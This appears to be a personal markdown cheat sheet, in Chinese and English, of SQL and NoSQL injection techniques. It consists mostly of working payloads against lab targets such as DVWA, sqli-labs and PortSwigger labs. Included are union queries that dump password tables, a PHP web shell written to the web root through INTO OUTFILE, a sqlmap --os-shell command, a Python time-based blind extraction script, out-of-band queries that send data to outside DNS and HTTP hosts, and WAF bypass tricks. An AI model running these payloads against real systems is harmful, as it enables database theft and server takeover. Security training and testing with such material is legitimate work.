





# Sql Inject

[databases](../cyber/WebApplication.md#database)

[SQL Injection](../security/webpentesting.md#sql-injection)

[Advanced SQL Injection](../webapp/InjectionAttacks.md#advanced-sql-injection)

[sql-injection-cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## common

**判断是否为注入点**

```sql
# step1 报错
'
# step2 200
''
' --+
# 查询全部
' or 1=1 --+
```

**判断查询字段数目**

```sql
' order by 3 --+
```

**确定回显字段**

```sql
' union select null,null,null --+ 
```
*oracle*
```sql
' union select null,null from dual --+ 
```

**URL encoding**

`1' OR 1=1 -- `   →   `1%27%20||%201=1%20--+`   →   `1%27%20%7C%7C%201%3D1%20%2D%2D+`

- `%27` is the URL encoding for the single quote (').
- `%20` is the URL encoding for a space ( ).
- `||` represents the SQL OR operator. `%7C%7C` is the URL encoding for `||`. 
- `%3D` is the URL encoding for the equals sign (=).
- `%2D%2D` is the URL encoding for --, which starts a comment in SQL.
- `+` add a space after the comment, ensuring that the comment is properly terminated and there are no syntax issues.

[ASCII](../linux/encoding.md#ascii)

<span style="font-size: 19px;">**Querying the database type and version**</span>

| Database type    | Query                          |
| ---------------- | ------------------------------ |
| Microsoft, MySQL | `SELECT @@version`             |
| Oracle           | `SELECT banner FROM v$version` |
| PostgreSQL       | `SELECT version()`             |

<span style="font-size: 19px;">**不同数据库类型字符串串联语法**</span>

| 数据库类型                 | 字符串串联语法 (Concatenation Syntax) |
| :------------------------- | :------------------------------------ |
| **Oracle**                 | `username\|\| '-' \|\|password`       |
| **Microsoft (SQL Server)** | `username+ '-' +password`             |
| **PostgreSQL**             | `username \|\| '-' \|\|password`      |
| **MySQL**                  | `CONCAT(username, '-', password)`     |

## union注入

**union联合查询**
- 可以一次性执行两个或多个查询，并将它们的结果组合在一起输出。
- 所有查询中的**列数必须相同**，以第一个查询为准。

[information_schema元数据库](../cyber/WebApplication.md#information-schema)

*查询当前操作数据库对应的信息*
```sql
' union select 1,user(),database(),version(),group_concat(table_name),6,7 from information_schema.tables where table_schema = database() #
```
*查询当前操作的数据库*
```sql
' union select 1,database() #

# PostgreSQL
' union select version(),current_database() --+
```

*查询数据库*
```sql
' union select 1,group_concat(schema_name) from information_schema.schemata #
```

*查询指定数据库的表*
```sql
' union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'dvwa' #
```
*查询指定表的字段*
```sql
' union select 1,group_concat(column_name) from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' #
```
*查看数据*
```sql
' union select 1,group_concat(username,':',password SEPARATOR '<br>') from dvwa.users #
```

<span style="font-size: 19px;">**Oracle Union注入**</span>

```bash
# 查询所有表
' union select null,table_name from all_tables --+

# 查询表对应的字段
' union select column_name,null from all_tab_columns where table_name = 'USERS_LUVUXW' --+

# 查询结果
' union select USERNAME_JCAQMT,PASSWORD_ETJOZN from USERS_LUVUXW

```

---

## 读写

<span style="font-size: 23px;">**通过SQL注入向靶机中读取写入**</span>

[通过MySQL读写文件](../cyber/WebApplication.md#通过mysql读写文件)

*读取*
```bash
' union select 1,load_file('/flag.txt'),3 #
```

*写入*
- 必须要保证mysql用户对指定目录具有写入权限
- 文件路径必须用绝对路径
```bash
' union select 1,"<?php @eval($_REQUEST['pass']);?>",3 into outfile '/var/www/html/uploads/shell.php' #
```
---

## sqlmap

[sqlmap](../security/offensivetools.md#sqlmap)

自动化注入工具sqlmap
- sqlmap利用Python开发，运行sqlmap需要有Python环境，推荐在Kali中使用。

注释符 `--+`
- 注释符 `#` 在URL中需要编码为 `%23`
- 在URL中通常使用 `--+` 来代替`#`，`+`是空格的URL编码。

<span style="font-size: 23px;">**基本用法**</span>

```bash
# 检测注入点
sqlmap -u "http://xxx?id=1"

# 查询所有数据库
sqlmap -u "http://xxx?id=1" --dbs
available databases [4]:
[*] information_schema
[*] mysql
[*] note
[*] performance_schema

# 查询当前操作的数据库
sqlmap -u "http://xxx?id=1" --current-db
current database: 'note'

# 查询指定数据库的表 -D 数据库名
sqlmap -u "http://xxx?id=1" --tables -D note
[2 tables]
+-------+
| fl4g  |
| notes |
+-------+

# 查询指定表的字段 -T 表名
sqlmap -u "http://xxx?id=1" --columns -T fl4g -D note
+---------+-------------+
| Column  | Type        |
+---------+-------------+
| fllllag | varchar(40) |
+---------+-------------+

# 导出数据 --dump ; -C 字段名
sqlmap -u "http://xxx?id=1" --dump -C fllllag -T fl4g -D note
+---------------------------------+
| fllllag                         |
+---------------------------------+
| n1book{union_select_is_so_cool} |
+---------------------------------+
```

**可选操作**

```bash
# 判断当前用户是否为数据库管理员
sqlmap -u "http://xxx?id=1" --is-dba
current user is DBA: True

# 获取当前用户
sqlmap -u "http://xxx?id=1" --current-user
current user: 'root@localhost'
```
---

<span style="font-size: 23px;">**sqlmap指定User-Agent**</span>

通过指定User-Agent绕过服务器限制
- `-A` **AGENT** 指定User-Agent
- `--random-agent` 使用随机User-Agent
- `--mobile` Imitate(模仿) smartphone through HTTP User-Agent header

```bash
sqlmap -u "http://xxx" --random-agent
```
<span style="font-size: 23px;">**sqlmap加载cookie**</span>

- 通过`--cookie`=COOKIE 选项加载**cookie**，可以用于需要身份验证情况下的注入。

[cookie](../cyber/web.md#cookies)

```bash
sqlmap -u "http://xxx" --cookie="COOKIE"
```
---

<span style="font-size: 23px;">**post型注入**</span>

- 通过`--data`选项指定post方法传递的数据

```bash
sqlmap -u "http://xxx/index.php" --data="id=1"
```
- 通过`-r`选项加载HTTP请求文件，用`-p`选项指定要检测的参数。

```bash
sqlmap -r "post.txt" -p "id"
```
---

<span style="font-size: 23px;">**通过sqlmap获取Shell**</span>

- 需要知道网站的主目录，且有一个具有 **写** 权限的目录

```bash
sqlmap -r "post.txt" --os-shell
```
---

## Stacked

堆叠注入（Stacked Injections）堆叠注入则允许攻击者在原本的查询语句后面，通过分号`;`结束当前语句，然后**额外追加一条或多条全新的 SQL 语句**。

```php
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
```
*修改为*
```php
mysqli_multi_query($GLOBALS["___mysqli_ston"],  $query);
$result = mysqli_use_result($GLOBALS["___mysqli_ston"]);
```

**payload**

```sql
'; update users set password='e10adc3949ba59abbe56e057f20f883e' where user_id=1; -- 
```

```sql
'%3b select pg_sleep(5) --+
```
---

## In-Band

[In-Band SQLi](../security/webpentesting.md#in-band-sqli)

### Error-Based

MySQL 的报错注入主要是利用 MySQL 的一些逻辑漏洞，如 BigInt 大数溢出等，由此可以将 MySQL 报错注入主要分为以下几类：

1. BigInt 等数据类型溢出
2. XPath 语法错误
3. `count()` + `rand()` + `group_by()` 导致重复
4. 空洞数据类型函数错误

很多函数会导致 MySQL 报错并显示数据：

1. `floor` 函数；
2. `extractvalue` 函数；(最多32字符)
3. `updatxml` 函数；
4. `exp()` 函数；
5. `cast()`函数

<span style="font-size: 19px;">**1.floor、rand(0)和group by**</span>


```sql
select count(*),concat((select user()), floor(rand(0)*2)) x from information_schema.TABLES group by x
```

<span style="font-size: 19px;">**2.extractvalue**</span>

```sql
select extractvalue(1, concat(0x7e, (select @@version)));
```
*payload*
```bash
?id=1' and extractvalue(1, concat(0x7e, (select @@version))) -- '
```
- `0x7e` 代表` ~`：`concat(0x7e, (select @@version))` 会将波浪号 `~` 和数据库版本信息连接在一起（例如：`~5.7.26`）。
- `extractvalue()` 函数的作用是从 XML 中提取数据，它的第二个参数必须是符合 **XPath** 语法格式的路径。
- **制造非法路径**：由于路径以波浪号 `~` 开头，不符合 **XPath** 的语法规范，数据库会因为**语法错误**而抛出异常。
- **获取敏感信息**：数据库在报错时，会将这个不合法的路径（连同我们拼接进去的 `@@version` 版本信息）直接显示在错误信息中。例如：`1105 - XPATH syntax error: '~5.7.26'`

<span style="font-size: 19px;">**3.updatxml**</span>

```sql
select updatexml(1,concat(0x7e,(SELECT @@version)),1);
```
`1105 - XPATH syntax error: '~5.7.26'`

*payload*
```bash
?id=2' and updatexml(1,concat(0x7e,(SELECT @@version)),1) -- '
```

- `updatexml(xml_target, xpath_expression, new_xml)` 这是一个 **MySQL** 用于修改 **XML** 数据的内置函数。它接收三个参数：
  - `xml_target`：目标 **XML** 内容或文档。
  - `xpath_expression`：用于定位要修改的 **XML** 节点的 **XPath** 路径。
  - `new_xml`：替换后的新 **XML** 内容。

*特殊绕过*
```bash
?id=2' and updatexml(0x1,concat_ws(1,0x7e,@@datadir),0x1) -- '
```

<span style="font-size: 19px;">**4.exp()**</span>

```sql
select exp(~(select * from (select database())x));
```
`DOUBLE value is out of range in ...`


**`exp()` 双精度溢出报错**

* **`exp(x)` 函数**：该函数用于计算自然对数底数 $e$ 的 $x$ 次方（即 $e^x$）。
* **溢出条件**：在计算机中，双精度浮点数能表示的最大值是有限的。在 MySQL 中，当 `exp()` 的参数 $x$ 大于约 `709.78` 时，计算结果就会超出双精度浮点数的最大范围，从而触发 **"Double value out of range"（双精度数值超出范围）** 的溢出错误。
* **信息回显**：在 **MySQL 5.5.x** 等较早版本中，当 `exp()` 发生溢出报错时，数据库会将导致溢出的查询结果作为错误信息的一部分返回给客户端。

<span style="font-size: 19px;">**实战**</span>

靶机：**DVWA** SQL Injection

```bash
' and extractvalue(1, concat(0x7e, (select database()))) -- 
```
XPATH syntax error: '~dvwa'

```bash
' and extractvalue(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema='dvwa' ))) --  
```
XPATH syntax error: '~guestbook,users'

```bash
' and extractvalue(1, concat(0x7e, (select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 4,1 ))) --  
```
XPATH syntax error: '~password'

```bash
' and extractvalue(1, mid(concat(0x7e, (select password from dvwa.users limit 0,1)),1,29)) -- 
```
XPATH syntax error: '~5f4dcc3b5aa765d61d8327deb882'
- `mid()` 函数：**字符串截取**，`MID(str, start, length)`

<span style="font-size: 19px;">**5.cast()**</span>

```bash
' AND 1=CAST((SELECT 1) AS int) --
```
```bash
' AND 1=CAST((SELECT username FROM users) AS int) --
```
---

## Blind

[Blind SQLi](../security/webpentesting.md#inferential-blind-sqli)

### Boolean-Based

通过构造**真（True）/ 假（False）** 条件的 SQL 语句，观察页面的**两种不同响应**来逐位推断数据。

```
条件为 TRUE  → 页面正常显示（如：显示内容、登录成功）
条件为 FALSE → 页面异常显示（如：空白、"Not Found"、登录失败）
```

```bash
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a' --+
```
```bash
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a' --+
```
<span style="font-size: 19px;">**Exploiting blind SQL injection by triggering conditional errors**</span>

```bash
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a' --+
```

**Oracle**

*确定表*
```bash
'||(select '' from users where rownum=1)||'
```
*确定表中的用户*
```bash
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
```bash
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' )||'
```
*确定密码*
```bash
'||(SELECT CASE WHEN LENGTH(password)>10 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
```bash
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

### Time-Based

<span style="font-size: 19px;">**时间盲注常用函数**</span>


**PoC**

```sql
# guess length
' and length(database())>3 and sleep(2) -- '

# guess character
' and substr(database(),1,1)='a' and sleep(2) -- '
' and ascii(substr(database(),1,1)) > 97 and sleep(2) -- '
```

*postgresql*
```sql
# 判断是否有时间盲注
'%3b pg_sleep(7) --+
'%3b SELECT pg_sleep(7) --+ 
'%3b SELECT CASE WHEN (1=1) THEN pg_sleep(7) ELSE pg_sleep(0) END --+

# 查询表是否有相应数据
'%3b SELECT CASE WHEN (username='administrator') THEN pg_sleep(7) ELSE pg_sleep(0) END from users--+

# guess length
'%3b SELECT CASE WHEN (LENGTH(password)>10) THEN pg_sleep(7) ELSE pg_sleep(0) END from users where username='administrator' --+

# guess character
'%3b SELECT CASE WHEN (substr(password,1,1)='a') THEN pg_sleep(7) ELSE pg_sleep(0) END from users where username='administrator' --+
```

<span style="font-size: 19px;">**时间盲注 自动化代码**</span>

```python
#!/usr/bin/python
#coding:utf-8

import requests
import time

#ip地址和登录payload
ip_port='127.0.0.1:80'
data={
    "login":"fairy",
    "password":"123qwe",
    "security_level":"0",
    "form":"submit"
}
#通过requests库 构建会话并维持登录状态
urlLogin="http://%s/login.php"%ip_port
session=requests.session()
resp=session.post(urlLogin, data)

#获取数据库名称长度
num=0
for i in range(1,21):
    url="http://%s/sqli_15.php?title=World War Z' and length(database())=%d and sleep(2) -- &action=search"%(ip_port, i)
    startTime = time.time()
    rsp = session.get(url)
    endTime = time.time()
    ga = endTime - startTime
    if ga > 1:
        print("length of database name is %d"%i)
        print("startTime", startTime)
        print("endTime", endTime)
        num = i
        break

#获取数据库名字
l = []
for j in range(1, num+1):
    for k in range(33, 128):
        url="http://%s/sqli_15.php?title=World War Z' and ascii(substr(database(),%d,1))=%d and sleep(2) -- &action=search"%(ip_port, j, k)
        startTime = time.time()
        rsp = session.get(url)
        endTime = time.time()
        ga = endTime - startTime
        if ga > 1:
            print(f'第{j}个字符：{chr(k)}')
            l.append(chr(k))
            break
print("name of database is ", ''.join(l))
```
---

## OOB

[Out-of-Band SQLi](../security/webpentesting.md#out-of-band-sqli)



OOB 注入（Out-of-Band Injection，带外注入）可以让目标服务器自己化身为“内鬼”，主动通过另外一个独立的网络通道（比如 DNS 或 HTTP），把数据送到攻击者的服务器上。

带外通道技术通常需要脆弱的实体来生成带外的TCP/UDP/ICMP请求，然后，攻击者可以通过这个请求来提取数据。

**一次OOB攻击能够成功是基于：**

1. 存在漏洞的系统；
2. 外围防火墙的出站请求。

### DNS迭代查询

[DNS协议](../web/HTTPProtocol#dns)

- 域名系统（Domain Name System，缩写：DNS）是互联网的一项服务。它作为将域名和IP地址相互映射的一个分布式数据库，能够使人更方便地访问互联网。
- DNS使用TCP和UDP端口**53**。
- 当前，对于每一级域名长度的限制是**63**个字符，域名总长度则不能超过**253**个字符。

<span style="font-size: 19px;">**DNS迭代查询原理**</span>

1. 首先有一个可以配置的域名test.com。
2. 通过代理商设置域名test.com的nameserver为自己拥有的服务器（S）的IP。
3. 然后在S上搭建DNSServer。
4. 这样test.com及其所有子域名的查询都会推送到S上，同时S也能够实时的监控针对test.com的查询请求。

<span style="font-size: 19px;">**泛域名解析**</span>

泛域名解析就是利用**通配符**的方式将所有的次级域名指向同一IP。

`*.example.com` IP ： `www.example.com` 和 `abc.example.com` 都会访问到同一个站点。


### 实施带外注入

带外注入可以简化盲注的过程，可以直接将查询到的结果通过DNS记录显示出来。

[通过MySQL读写文件](../cyber/WebApplication.md#通过mysql读写文件)

**payload**

```sql
select load_file(concat("\\\\",(select database()), ".7as54b.ceye.io\\abc"));
```
*获取数据库名*
```sql
?id=1' and load_file(concat("\\\\",(select database()), ".7as54b.ceye.io\\abc"))--+
```
*获取表名*
```sql
?id=1' and load_file(concat('\\\\',(select table_name from information_schema.tables
where table_schema='test' limit 0,1),".7as54b.ceye.io\\abc")) --+
```
<span style="font-size: 19px;">**大文本传输**</span>

- `substr` 对文件内容进行切片
- `to_base64` 对切片的内容进行编码
- `concat` 将编码后的内容与域名进行拼接
- `load_file` 访问该[UNC](../common.md#unc)路径

```sql
select concat(to_base64(substr(load_file("C:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\my.ini"),1,15)),".example.com") as result;
```
<span style="font-size: 19px;">**HTTP带外注入**</span>

**UTL_HTTP.request**

**Oracle** 发起HTTP请求 **UTL_HTTP.REQUEST ( url IN VARCHAR2, proxy IN VARCHAR2 DEFAULT NULL);**
- url：目标服务器地址
- porxy：代理服务器地址，该参数为可选参数

它的返回类型是长度为2000或更短的字符串，它包含从HTTP请求返回到参数URL的HTML结果的前2000个字节。



*通过SQL注入让目标服务器执行*
```sql
select UTL_HTTP.request('http://192.168.25.166/test.php'||'?id='||(select version from v$instance)) from dual;
```
在`192.168.25.166` 上的 test.php 会记录传递来的数据，并写入test.txt文件中。

### PoC

**Oracle**

```bash
# 确认可以触发OOB
'union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://xxx.oastify.com/"> %remote;]>'),'/l') FROM dual --+

# 执行语句，获取数据
' union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.xxx.oastify.com/"> %remote;]>'),'/l') FROM dual --+
```


---

## 混淆和绕过

[Filter Evasion Techniques](../webapp/InjectionAttacks.md#filter-evasion-techniques)

普通的注入方式过于明显，很容易被检测。因此，需要改变攻击的手法，绕过检测和过滤，即**混淆和绕过**。具体操作针对于服务端和WAF的防御机制有多种手段。

### XML encoding

**PoC**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>2</productId>
    <storeId>
        <@hex_entities>1 UNION SELECT username || '~' || password FROM users</@hex_entities>
    </storeId>
</stockCheck>
```

### 不常用绕过

<span style="font-size: 19px;">**group by 绕过**</span>

```sql
select substr((select GROUP_CONCAT(name) as names from test), 1, 5);
```
<span style="font-size: 19px;">**select 及单引号过滤绕过**</span>

```sql
select * from test where id = 1 || substr(name,1,1) = 't';
select * from test where id = 1 || substr(name,1,1) = 0x74;
select *, binary(name) from test where id = 1 && binary(name) > 0x74;
```
<span style="font-size: 19px;">**空格、等号过滤绕过**</span>

```sql
select/**/*/**/from/**/test/**/where/**/id/**/like/**/1;
```
<span style="font-size: 19px;">**双写绕过**</span>

*bwapp_sql_injection(GET/Select)*
```sql
http://127.0.0.1:80/sqli_2.php?movie=13 ununionion select 1,user(),user(),4,5,6,7 from information_schema.tables &action=go
```
<span style="font-size: 19px;">**双重编码绕过**</span>

**过滤代码**: WAF：urldecode(param)->过滤



<span style="font-size: 19px;">**注释符绕过**</span>

```html
a=/*&id=注入语句&b=*/
```

### 宽字节注入

<span style="font-size: 19px;">**逃逸绕过转义函数（宽字节注入）**</span>

*sqli-labs_less-36*
```sql
/Less-36/?id=133 %df%27 union select 1,user(),3 %23
```


---

## 二次注入



**防御方式**

- 预编译
- 禁止用户账号出现特殊符号

---

## NoSQL注入

[nosql-injection](../webapp/InjectionAttacks.md#nosql-injection)

**paylaod**

```bash
user[$ne]=attacker&pass[$ne]=pas123
```

```bash
';return key;//
```

<span style="font-size: 19px;">**mongoDB**</span>

**PoC**

```bash
'
'+'
' && 0 && 'x
' && 1 && 'x
'||1||'

administrator' && this.password.length < 30 || 'a'=='b
administrator' && this.password[0]=='x

{"$ne":""}
{"$regex":"admin.*"}
"$where": "Object.keys(this)[0].match('^.{0}a.*')"
```